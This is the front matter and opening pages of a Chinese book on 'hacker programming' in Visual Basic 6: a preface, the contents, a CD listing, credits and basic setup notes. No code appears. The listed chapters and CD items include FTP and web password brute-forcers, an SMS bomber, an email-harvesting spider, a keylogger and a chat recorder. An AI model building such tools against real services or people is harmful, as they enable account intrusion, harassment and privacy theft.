# 精通VB黑客编程

# 序

网络在人们的工作与生活中扮演着越来越重要的角色。但是，传递信息所依赖的 Internet 是很不安全的。近些年，各种网络泄密与信息窃取事件频发，让人防不胜防，给网络用户造成了巨大损失，信息安全问题成为人们关注的焦点之一。

造成信息安全问题的关键技术之一——黑客技术，随着 Internet 的发展而发展。虽然 Internet 在中国的大面积普及较晚，但是仍然造就了一批黑客。伴随着黑客的诞生，黑客技术也在国内快速成长，作为信息安全的重要分支，它越来越受到人们的重视和社会的关注。

当今人们更多地强调保护自己的隐私，“网络安全”“黑客技术”势必成为关注的热点，而学习黑客编程的相关技术，就可以了解如何应对来自网络上的威胁，如何进行网络防护。

作为一项非常有前途的军民两用技术，黑客技术牵涉到国家自身的战略和利益，因此，不可能也不能依靠外力实现，故各国的网络信息安全领域都急切地发展自己的黑客技术，从而拥有更方便、更安全、更有效的信息保护手段。我国也十分重视这个问题，国家“十一五”科学技术发展规划、国家重点基础研究发展计划（973 计划）“十一五”发展纲要、国家科技支撑计划“十一五”发展纲要、航空基金“十一五”发展计划、2006—2020 年国家信息化发展战略等都把信息安全技术列为重点研究领域。

特别是在 1996 年，电子工业部明确提出加快软、硬件加密的国产化进程；2006 年国务院又发布了《国家中长期科学和技术发展规划纲要（2006—2020 年）》，信息安全技术被列为信息产业及现代服务业等重点领域的优先研究课题。

该书顺应时代需求，由浅入深地讲述了 VB 编程在网络安全方面的应用。书的前五章重点介绍相关理论，第六章介绍综合应用。该书涵盖知识面广，内容全面，在实现方法上描述细致。

该书具有如下特点：

- 内容新颖。黑客编程相关图书在市面上所见不多，VB 相关的黑客编程更是寥寥无几，这本书较多地体现了编者的编程思想。
- 循序渐进。读者初读该书时，不需要太多的编程基础，但后面几章的知识逐步深入，能有效提高读者的知识水平和实际操作能力。对于网络安全爱好者和其他喜爱 VB 编程的读者，该书也不失为一本很好的读物。
- 理论联系实际。该书侧重于实现方法的描述，而不单纯地介绍理论基础。书中示例程序丰富，代码精练实用，并有适当注释，读者理解起来不会存在太大困难。
- 讲解到位。编者在讲透理论、基本原理、方法和技术的前提下，力求在写法上详略得当，方法具体，通俗易懂，便于自学。

总之，相信该书会受到广大读者的欢迎。

云鹏先生嘱我为其大作作序，学浅之人难担此任，再三婉拒，不允。只得从命。遵嘱写了上面几行字，权作序。

吴广茂

# CONTENTS·目录

# 第一章 VB 编程基础

- 1.1 引言 …… 2
- 1.2 认识一下 VB …… 2
- 1.3 安装 VB 6.0 …… 2
- 1.4 VB 集成开发环境 …… 3
- 1.5 数据类型 …… 4
- 1.5.1 基本数据类型 …… 4
- 1.5.2 自定义数据类型 …… 9
- 1.6 变量和常量 …… 10
- 1.7 数组 …… 11
- 1.8 语法基础 …… 13
- 1.8.1 顺序结构 …… 13
- 1.8.2 选择结构 …… 14
- 1.8.3 循环结构 …… 17
- 1.8.4 常用的几个内部函数 …… 20
- 1.9 基本控件的使用 …… 28
- 1.9.1 Label 控件 …… 28
- 1.9.2 Command 控件 …… 29
- 1.9.3 TextBox 控件 …… 31
- 1.9.4 ListBox 控件 …… 33
- 1.9.5 Timer 控件 …… 34
- 1.9.6 HScrollBar 控件和 VScrollBar 控件 …… 34
- 1.10 菜单的建立和使用 …… 35
- 1.11 自定义过程和自定义函数 …… 36
- 1.11.1 Sub 过程 …… 36
- 1.11.2 Function 函数 …… 38
- 1.12 本章小结 …… 40

# 第二章 文件编程

- 2.1 引言 …… 42
- 2.2 常用的文件系统操作语句 …… 42
- 2.2.1 ChDrive 语句 …… 42
- 2.2.2 ChDir 语句 …… 43
- 2.2.3 MkDir 语句 …… 43
- 2.2.4 RmDir 语句 …… 43
- 2.2.5 CurDir 函数 …… 44
- 2.2.6 Kill 语句 …… 44
- 2.2.7 Name 语句 …… 44
- 2.2.8 FileCopy 语句 …… 45
- 2.2.9 FileDateTime 函数 …… 45
- 2.2.10 FileLen 函数 …… 45
- 2.2.11 GetAttr 函数 …… 45
- 2.3 传统的文件系统访问方法 …… 46
- 2.3.1 使用顺序文件访问方法 …… 46
- 2.3.2 使用随机文件访问方法 …… 56
- 2.3.3 使用二进制文件访问 …… 61
- 2.3.4 传统文件访问实现文件加密、分割、合并 …… 64
- 2.3.5 小结一下 …… 67
- 2.4 使用 FSO 对象模型访问文件 …… 68
- 2.4.1 创建一个 FSO 对象 …… 68
- 2.4.2 FileSystemObject 对象 …… 69
- 2.4.3 Drive 对象 …… 79
- 2.4.4 Folder 对象和 File 对象 …… 82
- 2.4.5 TextStream 对象 …… 89
- 2.5 本章小结 …… 92

# 第三章 网络编程

- 3.1 引言 …… 94
- 3.2 WebBrowser 控件 …… 94
- 3.2.1 WebBrowser 控件的常用方法 …… 95
- 3.2.2 WebBrowser 控件的常用属性 …… 98
- 3.2.3 WebBrowser 控件的常用事件 …… 99
- 3.2.4 Document 对象 …… 100
- 3.3 WebBrowser 控件使用实例 …… 112
- 3.3.1 使用 WebBrowser 自动填写表单并提交 …… 112
- 3.3.2 使用 WebBrowser 实现简单密码破解 …… 113
- 3.3.3 使用 WebBrowser 返回百度搜索的前 10 条结果 …… 115
- 3.4 Microsoft Internet Transfer 控件 …… 117
- 3.4.1 Inet 控件的属性 …… 117
- 3.4.2 Inet 控件的方法 …… 119
- 3.4.3 Inet 控件的事件 …… 122
- 3.5 Microsoft Internet Transfer 控件使用示例 …… 122
- 3.5.1 使用 Inet 从网上下载文件 …… 122
- 3.5.2 使用 Inet 编写简易后台扫描工具 …… 123
- 3.5.3 Inet 基于 FTP 的应用简单举例 …… 126
- 3.5.4 使用 Inet 编写最简单 FTP 密码破解程序 …… 127
- 3.5.5 使用 Inet 实现 Web 页面上的暴力破解 …… 129
- 3.5.6 参考资料 …… 132
- 3.6 网络编程实例 …… 132
- 3.6.1 使用 WebBrowser 编写“手机短信轰炸机” …… 132
- 3.6.2 使用 Inet 控件实现“Email 抓取小蜘蛛” …… 134
- 3.7 本章小结 …… 138

# 第四章 数据库编程

- 4.1 引言 …… 140
- 4.2 Access 数据库的建立 …… 140
- 4.3 Data 控件 …… 141
- 4.3.1 Data 控件的属性 …… 141
- 4.3.2 Data 控件的方法 …… 145
- 4.3.3 Data 控件的事件 …… 145
- 4.3.4 Data 控件使用示例 …… 146
- 4.4 Microsoft Data Control 6.0 控件 …… 148
- 4.4.1 ADO Data 控件的属性 …… 148
- 4.4.2 ADO Data 控件的方法 …… 150
- 4.4.3 ADO Data 控件的事件 …… 151
- 4.4.4 ADO Data 控件使用示例 …… 152
- 4.5 DataGrid 控件 …… 155
- 4.5.1 DataGrid 控件的属性 …… 155
- 4.5.2 DataGrid 控件的方法 …… 159
- 4.5.3 DataGrid 控件的事件 …… 161
- 4.5.4 DataGrid 控件使用示例 …… 163
- 4.6 ADO RecordSet 对象 …… 164
- 4.6.1 ADO RecordSet 对象的属性 …… 164
- 4.6.2 ADO RecordSet 对象的方法 …… 164
- 4.6.3 ADO RecordSet 对象的事件 …… 165
- 4.7 SQL 语法介绍 …… 165
- 4.7.1 SELECT 语句 …… 166
- 4.7.2 Where 语句 …… 166
- 4.7.3 In 语句 …… 166
- 4.7.4 BETWEEN 语句 …… 167
- 4.7.5 Like 语句 …… 167
- 4.7.6 ORDER BY 语句 …… 167
- 4.7.7 Create Table 语句 …… 167
- 4.7.8 Alter Table 语句 …… 168
- 4.7.9 Drop Table 语句 …… 168
- 4.7.10 Insert Into 语句 …… 168
- 4.7.11 Update 语句 …… 168
- 4.7.12 Delete 语句 …… 168
- 4.8 本章小结 …… 168

# 第五章 API 编程

- 5.1 引言 …… 170
- 5.2 API 函数简介 …… 170
- 5.3 API 函数的使用方法 …… 170
- 5.4 API 函数使用示例 …… 172
- 5.4.1 GetComputerName 函数——获取计算机名 …… 172
- 5.4.2 GetUserName 函数——获取系统当前登录的用户名 …… 173
- 5.4.3 GetWindowText 函数——获取窗体标题或控件内容 …… 173
- 5.4.4 FindWindow 函数——查找指定的程序窗体 …… 174
- 5.4.5 PostMessage 函数——消息发送函数 …… 175
- 5.4.6 Beep 函数——利用系统喇叭发声 …… 177
- 5.4.7 BroadcastSystemMessage 函数——向顶级窗口发送消息 …… 178
- 5.4.8 CloseWindow 函数——最小化指定的窗口 …… 179
- 5.4.9 GetForegroundWindow 函数——返回前台窗口的句柄 …… 179
- 5.4.10 GetWindowsDirectory 函数——获取 Windows 文件夹所在的路径 …… 180
- 5.4.11 GetVersionEx 函数——返回操作系统的版本 …… 181
- 5.4.12 keybd_event 函数——实现模拟按键 …… 183
- 5.4.13 SetWindowPos 函数——设置窗体的位置和状态 …… 185
- 5.4.14 CreateEllipticRgn 函数——创建一个椭圆区域 …… 187
- 5.4.15 SetWindowRgn 函数——设置窗体的形状和区域 …… 187
- 5.4.16 CreatePolygonRgn 函数——创建任意多边形选区 …… 188
- 5.5 利用 API 函数枚举系统进程，结束进程 …… 189
- 5.5.1 CreateToolhelp32Snapshot 函数——获取线程快照句柄 …… 189
- 5.5.2 Process32First 函数——获取快照中的第一个进程 …… 190
- 5.5.3 Process32Next 函数——获取快照中的下一个进程 …… 192
- 5.5.4 CloseHandle 函数——关闭快照句柄 …… 192
- 5.5.5 枚举系统进程示例 …… 192
- 5.5.6 OpenProcess 函数——打开进程并返回进程句柄 …… 193
- 5.5.7 TerminateProcess 函数——关闭指定进程 …… 195
- 5.5.8 小结 …… 195
- 5.6 利用 API 函数读写注册表 …… 196
- 5.6.1 简介注册表 …… 196
- 5.6.2 RegCreateKey 函数——创建一个子键 …… 197
- 5.6.3 RegOpenKey 函数——打开子键并返回句柄 …… 198
- 5.6.4 RegDeleteKey 函数——删除一个子键 …… 199
- 5.6.5 RegEnumKey 函数——枚举子键 …… 199
- 5.6.6 RegQueryValue 函数——读取默认项的值 …… 201
- 5.6.7 RegQueryValueEx 函数——读取任意项的值 …… 202
- 5.6.8 RegSetValue 函数——设定默认项的值 …… 206
- 5.6.9 RegSetValueEx 函数——设定指定项的值 …… 207
- 5.6.10 RegDeleteValue 函数——删除指定项的值 …… 208
- 5.6.11 RegEnumValue 函数——枚举项的名称和值 …… 209
- 5.7 本章小结 …… 211

# 第六章 综合应用

- 6.1 引言 …… 213
- 6.2 编程实现屏幕效果 …… 213
- 6.3 SendKeys 实现打字效果 …… 215
- 6.4 keybd_event 函数实现浪漫表白程序 …… 217
- 6.5 keybd_event 函数不断发送 QQ 消息 …… 219
- 6.6 资源文件的使用方法 …… 220
- 6.7 改写资源文件实现另类文件和文件夹加密 …… 225
- 6.7.1 自释放程序的编写 …… 225
- 6.7.2 编写用于加密的主程序 …… 227
- 6.7.3 总结 …… 234
- 6.8 用 VB 实现屏蔽非法关键词 …… 235
- 6.8.1 程序实现的原理 …… 235
- 6.8.2 编程实现 …… 235
- 6.8.3 总结 …… 238
- 6.9 用 VB 编写 404 自定义增强后台扫描工具 …… 238
- 6.9.1 了解一下 HTTP 头 …… 238
- 6.9.2 程序实现的原理 …… 239
- 6.9.3 编程实现 …… 239
- 6.9.4 总结 …… 241
- 6.10 VB 外挂之校内网头像批量下载器 …… 242
- 6.10.1 程序实现的原理 …… 242
- 6.10.2 程序的具体实现 …… 242
- 6.10.3 总结 …… 246
- 6.11 查看安装的系统更新 …… 246
- 6.12 本章小结 …… 248
- 后续 …… 248

## CONTENT 光盘目录

## 必备软件

- WINRAR
- PDF 阅读器
- SQL 语句教程大全
- VBAPI 使用手册
- 傻瓜 FTP 服务器

## 工具代码

- Bingker 网络安全工具包
- ADSL 弱口令检测工具
- BHO 插件扫描
- TCP 查看工具
- Web 弱口令自检工具
- 垃圾文件清理工具
- 插绑检测工具
- 文件加密工具
- 系统更新 Viewer
- 系统自带工具
- BinKer 生日字典生成器.vbs
- 国内常用 Password.dic
- 国外常用 password.dic
- 端口安全检测工具
- 木马特征库
- 系统快照工具
- 系统文件校验工具
- 脚本木马工具
- ……

## 优秀源代码包

- 1500 个 WINDOWS API 类全集
- 21 种加密算法
- 500 多个 API 函数的详细介绍
- chm 制造机
- dell 注入
- OICQ 记录器
- vb 进程管理器
- VB 个人防火墙
- vb 做的下载软件
- VB 反编译
- VB 在线升级
- vb 多线程演示代码
- vb 实现监视网页数据流
- VB 智能搜索引擎
- vb 监视 CPU
- vb 类似于网络蚂蚁的下载软件
- vb 防火墙
- VB 高级钩子编程示例
- vb 高级防火墙
- Visual Basic 灵感编程范例源代码
- Windows 换肤工具
- 一个菜单的例子
- 优秀的卸载工具源码
- 修改文件夹权限
- 取得计算机中所有 Modem 的名称
- 和注册表一样一样的注册表查看器
- 基于 U 盘的身份认证
- 实现 Office 形式的菜单
- 小马哥——按钮突破专家 II
- 建立关联程序的例子
- 强制删除文件
- 得到屏幕上任何部位的颜色
- 抓屏代码
- 数据包捕获
- 文件搜索器
- 文件管理器
- 文件自动更新程序
- 显示系统信息
- 最小化到系统托盘
- 极速端口扫描工具 Ver 1.0
- 查杀木马
- 注册表的相关操作
- 注册表编辑器源代码
- 浏览一个子目录
- 漂亮的 VB 程序窗体
- 特洛伊木马防御系统
- 用 VB 和 USB 通信的一个实例
- 硬盘 ID
- 窗口查找代码生成器
- 简易电脑安全保护及优化工具 Ver 1.70
- 系统监视器
- 网络流量监视器
- 能够实现资源管理器功能的源代码
- 自定义窗体
- 获得系统的信息
- 虚拟桌面
- 设置窗体形状
- 读取写入键值
- 读取注册表的例子
- 读取鼠标所在位置的单词
- 资源管理器
- 运行程序的查看
- 通用自动存盘工具
- 键盘鼠标记录器
- 随想 WindowsXP 风格 Visual Basic 滚动条控件
- 高级专业防火墙
- 鼠标移动得到屏幕颜色
- U 盘加密解密工具
- ……

## 图书相关代码

- 第一章
- 1-1 变量在窗体间的传递
- 1-2 Select Case 语句
- 1-3 For 循环
- 1-4 While 循环
- 1-5 Do While ... Loop 循环
- 1-6 For Each ... Next 循环
- 1-7 菜单的建立和使用
- 1-8 Dir 函数的使用
- 1-9 Sub 过程的使用
- 1-10 有一个参数的 Sub 过程
- 1-11 Function 函数判断输入合法性
- 1-12 Function 函数判断安装的杀毒软件类型
- 1-13 建立控件数组

- 第二章
- 2-1 使用 EOF 函数来读取文件的最后一行
- 2-2 使用 Seek 函数返回下一个操作将要发生的字节位置
- 2-3 使用 Input # 语句读取数据到变量中
- 2-4 使用 Input 函数读入文本中的前 10 个字符
- 2-5 使用 Line Input # 语句来读取第二行的内容
- 2-6 使用 Input 函数读取文件的所有内容
- 2-7 使用 Line Input # 语句读取文件的所有内容
- 2-8 使用 Print # 语句写入一行文字
- 2-9 使用 Print # 语句将一个字符串变量的值写入文件
- 2-10 使用 Print # 语句打印一个逻辑值
- 2-11 使用 Print # 语句打印 Spc 函数
- 2-12 使用 Print # 语句打印 Space 函数
- 2-13 使用 Print # 语句输出 TextBox 中的字符到文件
- 2-14 使用 Write # 语句输出到顺序文件
- 2-15 以 Append 方式打开文件追加内容
- 2-16 插入内容到文件特定的一行中
- 2-17 使用 Put 语句写入数据到随机文件
- 2-18 使用 Get 语句读取随机文件中的数据
- 2-19 修改随机文件中的记录
- 2-20 向随机文件中插入记录
- 2-21 删除随机文件中的某条记录
- 2-22 使用二进制文件访问写入数据

# 光盘目录

- 2-23 使用二进制文件访问读取数据
- 2-24 使用二进制文件访问读入 Byte 数组
- 2-25 文件加密之 ASCII 码加密
- 2-26 对 ASCII 加密后的文件进行解密
- 2-27 二进制文件加密
- 2-28 二进制文件解密
- 2-29 使用 FileSystemObject 对象获取驱动器列表
- 2-30 获取本机磁盘总个数
- 2-31 判断指定的磁盘是否存在
- 2-32 使用 FileSystemObject 对象的 GetDrive 方法来获取磁盘属性
- 2-33 使用 FileSystemObject 对象的 GetDriveName 方法
- 2-34 使用 FileSystemObject 对象的 FolderExists 方法
- 2-35 使用 CreateTextFile 方法新建文件
- 2-36 获取文件对象和文件夹对象的多个属性
- 2-37 使用文件夹对象的 Files 属性列出文件夹中的所有文件
- 2-38 使用 Folder 对象的 SubFolders 属性遍历文件夹

- 第三章
- 3-1 使用 WebBrowser 提交一个密码
- 3-2 使用 WebBrowser 登录
- 3-3 获取页面中获取焦点的对象的 Name 属性
- 3-4 使用 documentElement 属性来返回页面中的 HTML 代码
- 3-5 使用 Document 对象的 All 集合遍历网页中的所有元素
- 3-6 获取网页中的所有超链接
- 3-7 获取网页中表单的个数
- 3-8 获取网页中框架的个数
- 3-9 获取页面中的所有图片 URL
- 3-10 使用 Links 集合获取页面所有超链接
- 3-11 使用 Scripts 集合判断网页中脚本的总个数
- 3-12 getElementById 方法的使用
- 3-13 getElementsByName 方法返回对象的集合
- 3-14 获取 Body 中的文本 InnerText
- 3-15 获取网页中所选中文本的 HTML 代码
- 3-16 使用 WebBrowser 自动填写表单并提交
- 3-17 使用 WebBrowser 进行密码破解
- 3-18 获取百度搜索结果中的前 10 条结果
- 3-19 使用 Inet 控件 OpenURL 方法获取网页源代码
- 3-20 使用 Inet 控件判断计算机是否已经联网
- 3-21 使用 Inet 控件下载网上的 Rar 文件
- 3-22 使用 Inet 控件下载文本文件
- 3-23 使用 Inet 控件编写后台扫描程序
- 3-24 使用 Inet 控件编写 FTP 密码破解程序
- 3-25 使用 Inet 控件编写基于网页的暴力破解程序
- 3-26 使用 WebBrowser 控件编写手机轰炸机
- 3-27 使用 Inet 控件实现 Email 抓取小蜘蛛

- 第四章
- 4-1 Data 控件简单使用示例
- 4-2 ADO Data 控件简单使用示例
- 4-3 ADO Data 控件列出所有记录的值
- 4-4 使用 ADO Data 控件验证用户登录
- 4-5 DataGrid 控件使用示例
- 4-6 Select 语句的使用示例

- 第五章
- 5-1 GetComputerName 函数使用示例
- 5-2 GetUserName 函数使用示例
- 5-3 GetWindowText 函数使用示例
- 5-4 FindWindow 函数使用示例
- 5-5 PostMessage 函数关闭迅雷 5 窗口
- 5-6 FindWindow 函数将迅雷窗口最大化
- 5-7 Beep 函数使用示例
- 5-8 BroadcastSystemMessage 函数使用示例
- 5-9 CloseWindow 函数使用示例
- 5-10 GetForegroundWindow 函数使用示例
- 5-11 GetWindowsDirectory 函数使用示例
- 5-12 GetVersionEx 函数判断当前操作系统的类型
- 5-13 使用 keybd_event 函数实现浪漫表白
- 5-14 SetWindowPos 函数设置卡巴斯基窗口最上层
- 5-15 SetWindowPos 函数设置 QQ 登录窗口的大小
- 5-16 SetWindowRgn 函数设置窗体的形状为椭圆
- 5-17 SetWindowRgn 函数设置窗体的形状为菱形
- 5-18 Process32First 函数获取系统第一个进程的信息
- 5-19 枚举系统所有进程的信息
- 5-20 结束指定 PID 的进程
- 5-21 RegCreateKey 函数使用示例
- 5-22 在子键下创建新的子键
- 5-23 RegDeleteKey 删除子键
- 5-24 RegEnumKey 获取第一个子键名
- 5-25 RegEnumKey 枚举所有子键
- 5-26 RegQueryValue 取得默认项的值
- 5-27 RegQueryValueEx 读取注册表项的值
- 5-28 RegQueryValueEx 读取注册表项的值方法 2
- 5-29 ExpandEnvironmentStrings 函数展开环境变量字符串
- 5-30 RegQueryValueEx 读取 REG_EXPAND_SZ 类型的值
- 5-31 RegSetValue 函数设定默认项的值
- 5-32 RegSetValueEx 函数设定指定项的值
- 5-33 RegDeleteValue 函数删除指定项的值
- 5-34 RegEnumValue 函数枚举所有项的值
- 5-35 RegEnumValue 函数枚举所有项的值改进方法

- 第六章
- 6-1 编程实现屏幕效果
- 6-2 SendKeys 实现打字效果
- 6-3 Keybd_event 函数实现浪漫表白程序
- 6-4 Keybd_event 函数不断发送 QQ 消息
- 6-5 添加并使用字符串资源
- 6-6 添加并使用位图资源
- 6-7 添加并使用图标资源
- 6-8 添加并使用自定义资源
- 6-9 改写可执行文件中的资源
- 6-10 改写资源文件实现另类文件和文件夹加密
- 6-11 用 VB 实现屏蔽非法关键词
- 6-12 用 VB 编写 404 自定义增强后台扫描工具
- 6-13 查看安装的系统更新

# 前言

VB 作为一门简单易用的编程语言，初学者可以很快上手，它备受广大编程爱好者的青睐。在黑客编程中，VB 也有很多体现。在 1991 年微软推出 VB1.0 后，VB 不断取得发展，特别是在 VB4.0 以后，引入了面向对象的程序设计思想和“控件”的概念。目前使用较普遍的是 VB6.0，而微软推出的最新版本则是 VB2010 测试版，于 2009 年 5 月份发布。

本书中，笔者分六个章节讨论了 VB 编程的相关内容，分别是：VB 编程基础、文件编程、网络编程、数据库编程、API 编程、综合应用。图书涵盖内容广泛，而在具体方法的实现上，则注重细节，以初学者视角切入，逐步深入。

本书注重理论的实际应用，书中示例丰富，代码精短实用，由于笔者对代码进行了逐行注释，读者朋友理解起来不会存在太大困难。图书侧重对实现方法的描述，而不是单纯的介绍理论基础。书中所介绍的一些实现方法，部分为笔者原创，部分则借鉴了前人的经验。

本书一方面可以作为 VB 程序开发人员的参考资料，在遇到相关问题时，能很快地通过图书进行查阅。另一方面，也为 VB 编程人员第一次进阶提供了途径。无论是对在校学生，还是非专业人员，均具有一定的参考价值。

本书由张云鹏、李劼杰编写。胡言言参与了第一章和第四章的校正工作，邓腾参与了第二章的校正工作，赵新奎参与了第三章和第五章的校正，刘虎兵校正了第六章的内容。李劼杰负责统筹全书。在此，一并向这些朋友表示感谢！在图书的编写过程中，西北工业大学软件与微电子学院的张云鹏老师给予了很大帮助，编者予以感谢！另外，《黑客手册》杂志社的编辑“非安全·后生”为本书的顺利出版提供了支持！编者特予感谢！同时感谢编辑张宇对本书的编审工作。

由于行文仓促，加之作者水平有限，书中难免出现疏漏错误之处，还恳请广大读者朋友批评指正，笔者不胜感激！

- 联系方式：陕西省西安市西北工业大学长安校区 631 信箱
- 李劼杰（710129）
- Email：ameriapeopl@163.com
- Love@lijiejie.com

编者

| 项目 | 内容 |
|---|---|
| 出品人 | 非安全 |
| 作者 | 张云鹏、李劼杰（冰域剑客） |
| 编审 | 张宇 |
| 编辑 | Python、LCX、空气、眼镜猴、冰的原点、浪迹天涯、10086 |
| 特约编辑 | 风飘雨、小迷、XApache、张宇、青蛙王子、小龙猪 |
| 初稿校对人员 | 胡言言、邓腾、赵新奎、刘虎兵 |
| 终稿文字审核 | Python、白长亮、百合 |
| 光盘编辑 | 眼镜猴、猫哥肥 |
| 平面规划 | 黑裤子 |
| 网站 | www.nohack.cn |
| 网站编辑/管理 | 空气、Cass |
| 发行 | 段东霞 |
| 电话/传真 | 010-68867436、010-86921991 |
| 邮购 | 速递小子 924073360（QQ） |
| 版权声明 | 图文版权所有，未经同意，不得转载。作者投稿文章，文责自负。 |
| 投稿信箱 | nohack@21cn.com |
| 邮购查询 | hope_wym@sina.com |
| 光盘投稿/交流信箱 | CD@nohack.cn |
| 在线商城 | book.nohack.cn |
| 淘宝专卖店 | taobao.nohack.cn |
| 拍拍网 | paipai.nohack.cn |
| 百度有啊 | youa.nohack.cn |

## 第一章

## VB 编程基础


## 1.1 引言

为了方便读者朋友了解并巩固基础知识，在第一章中，我们对 Visual Basic 的部分基本知识做简单介绍：包括 Visual Basic 的发展历史、安装过程、数据类型、变量和常量、数组、语法、基本控件的使用、菜单的建立和使用，以及自定义过程和函数的使用。了解完本章的内容，将有助于后面更深入地学习其他内容。建议读者朋友在看书的同时，也要练习书中所提到的操作和实例。

## 1.2 认识一下 VB

VB 是 Visual Basic 的简称。Visual 是可视化的意思，而 Basic 则是“Beginners All-purpose Symbolic Instruction Code”的缩写，它的意思是“初学者通用符号指令代码”。VB 是在 Basic 的基础上发展起来的。这里，可视化（Visual）是指开发图形用户界面（Graphical User Interface）的一种方法。

微软 1991 年推出 VB1.0 后，VB 又不断取得发展，特别是在 VB4.0 以后，引进了面向对象的程序设计思想和控件的概念。目前使用较普遍的是 VB6.0，而微软推出的最新版则是 VB 2010 测试版（于 2009 年 5 月份发布）。

使用 VB 可以很容易地开发数据库应用程序、网络应用程序以及各种工具软件，它具有简单易用的特点，初学者非常容易上手。因此 VB 被许多网络安全爱好者作为入门语言，很多黑客工具也都是使用 VB 实现的。

VB 自身拥有大量的组件，使用 VB 可以很容易地实现扫描和分析工具，而不必编写过多的代码。我们经常可以看到这样的情况：超市及医院的收费软件、各种财务管理软件、教学软件、机房管理软件等，都是通过 VB 来开发的。所以，学习 VB 是我们一个很好的选择。

在本书中，示例程序都使用 VB6.0 编写，所有程序均在 Vista Home Basic 操作系统中调试通过。当然，VB 开发出来的程序都有很好的向上（Vista、Windows 7 等）及向下（Windows 9X、Windows 2000、Windows 2003 等）兼容性，我们在 Windows 95 以上的任何一个 Windows 操作系统中均可以进行编码（要求 32 位操作系统）。

VB6.0 分为学习版、专业版和企业版，它们的区别在于：学习版提供的功能和组件最少，专业版在学习版的基础上增加了部分功能和组件（例如 ActiveX 控件、Visual Database Tools），而企业版则提供了专业开发人员所需要的全套工具（它还包括了 Back Office 工具：SQL Server、Internet Information Server 等），它最为全面。当然，对于非专业开发人员，学习版和专业版也基本可以满足需要。本书示例采用 VB6.0 中文企业版。

## 1.3 安装 VB 6.0

下面简单介绍一下 VB 6.0 的安装过程。首先运行安装光盘（或者从网上下载的安装文件）中的 SETUP.EXE，此时加载安装程序，如图 1-1 所示。

单击“下一步”，在出现的窗口中选中“接受协议”，再单击“下一步”。这时要求输入产品 ID，我们只需要全部输入 1 就可以了，如图 1-2 所示。

# 第一章 VB 编程基础



